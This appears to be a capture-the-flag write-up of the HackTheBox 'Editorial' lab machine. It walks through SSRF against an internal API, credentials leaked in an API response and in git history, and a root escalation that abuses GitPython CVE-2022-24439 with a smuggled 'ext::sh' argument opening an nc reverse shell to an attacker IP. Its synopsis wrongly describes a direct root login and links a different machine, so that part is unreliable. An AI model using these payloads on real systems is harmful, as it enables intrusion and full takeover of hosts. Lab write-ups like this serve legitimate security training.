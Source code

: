 ```yaml
---
layout: post
title: HackTheBox Editorial
date: 2024-01-06
tags: [HackTheBox, Linux]
---
```


# Machine Synopsis

Editorial is a box. The obtained password is used to log into the box as the root user. ([Source](https://app.hackthebox.com/machines/Bizness/information))

# Enumeration

```bash
$ nmap -sV -sC 10.10.11.20
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 13:47 +08
Nmap scan report for 10.10.11.20
Host is up (0.0049s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here is the website.

![website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Editorial/website.png?raw=true)

Discovered a hidden directory `/upload` with `dirsearch`.

```bash
$ dirsearch -u "http://editorial.htb/"
...
Target: http://editorial.htb/
[13:59:34] Starting: 
[13:59:41] 200 -    3KB - /about
[14:00:22] 200 -    7KB - /upload
```

![upload_webpage](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Editorial/upload_webpage.png?raw=true)

# Exploitation

Tinkering around with the upload function did not yield any results. The uploaded file will be stored at `/static/uploads/<random_hex>` but when you try to open the link to the file, it will be downloaded directly on your browser instead of executing it.

However, there is an input box that allows you to put some arbitrary URL.

![burp_google](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Editorial/burp_google.png?raw=true)

When you change the URL to `127.0.0.1`, the HTTP response shows the default image file on the web server. 

![burp_localhost](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Editorial/burp_localhost.png?raw=true)

Tested the URL for SSRF vulnerability using Burp Intruder.

![burp_intruder](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Editorial/burp_intruder.png?raw=true)

The response showed that port 5000 is the odd one out.

![burp_intruder_result](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Editorial/burp_intruder_result.png?raw=true)

Check out what is this file located on the server using Burp. 

![burp_localhost_file](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Editorial/burp_localhost_file.png?raw=true)

There seems to be some hidden API endpoints that the localhost can reach.

![ssrf_authors_request](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Editorial/ssrf_authors_request.png?raw=true)

![ssrf_authors_response](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Editorial/ssrf_authors_response.png?raw=true)

There’s a credentials leaked on the authors API endpoint: `dev:dev080217_devAPI!@`.

```bash
$ ssh dev@editorial.htb
dev@editorial.htb's password: dev080217_devAPI!@
dev@editorial:~$ 
```

# Privilege Escalation

There is a `.git` folder located in the `apps` directory. Found a `logs` folder in the `.git` folder.

```bash
dev@editorial:~$ sudo -l
[sudo] password for dev: 
Sorry, user dev may not run sudo on editorial.
dev@editorial:~$ ls
apps  user.txt
dev@editorial:~$ cd apps/
dev@editorial:~/apps$ ls
dev@editorial:~/apps$ ls -la
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5 14:36 .
drwxr-x--- 4 dev dev 4096 Jun  5 14:36 ..
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
dev@editorial:~/apps/.git$ ls
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  info  logs  objects  refs
dev@editorial:~/apps/.git$ cat HEAD
ref: refs/heads/master
dev@editorial:~/apps/.git$ cd logs
dev@editorial:~/apps/.git/logs$ ls
HEAD  refs
dev@editorial:~/apps/.git/logs$ cat HEAD
0000000000000000000000000000000000000000 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8 dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682905723 -0500	commit (initial): feat: create editorial app
3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8 1e84a036b2f33c59e2390730699a488c65643d28 dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682905870 -0500	commit: feat: create api to editorial info
1e84a036b2f33c59e2390730699a488c65643d28 b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906108 -0500	commit: change(api): downgrading prod to dev
b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dfef9f20e57d730b7d71967582035925d57ad883 dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906471 -0500	commit: change: remove debug and update api port
dfef9f20e57d730b7d71967582035925d57ad883 8ad0f3187e2bda88bba85074635ea942974587e8 dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906661 -0500	commit: fix: bugfix in api port endpoint
```

There is an interesting git commit called `create api to editorial info`.

```bash
dev@editorial:~/apps/.git/logs$ git show 1e84a036b2f33c59e2390730699a488c65643d28
commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

diff --git a/app_api/app.py b/app_api/app.py
...
+
+# -- : (development) mail message to new authors
+@app.route(api_route + '/authors/message', methods=['GET'])
+def api_mail_new_authors():
+    return jsonify({
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+    }) # TODO: replace dev credentials when checks pass
+
+# -------------------------------
+# Start program
+# -------------------------------
+if __name__ == '__main__':
+    app.run(host='127.0.0.1', port=5001, debug=True)
```

Hidden in the git commit was the production credentials: `prod:080217_Producti0n_2023!@`.

```bash
$ ssh prod@editorial.htb
prod@editorial.htb's password: 080217_Producti0n_2023!@
prod@editorial:~$ sudo -l
[sudo] password for prod: 080217_Producti0n_2023!@
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

It appears that the production account has the privilege to run `clone_prod_change.py` as `root`.

```bash
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Lets check what are the versions of the Python packages installed.

```bash
prod@editorial:~$ pip3 list
Package               Version
--------------------- ----------------
...
Flask                 2.2.2
gitdb                 4.0.10
GitPython             3.1.29
...
```

`GitPython 3.1.29` is vulnerable to `CVE-2022-24439` according to [Snyk](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

```bash
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c rm% /tmp/f;mkfifo% /tmp/f;cat% /tmp/f|/bin/bash% -i% 2>&1|nc% 10.10.14.5% 9999% >/tmp/f"
```

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.20] 46750
root@editorial:/opt/internal_apps/clone_changes# 
```
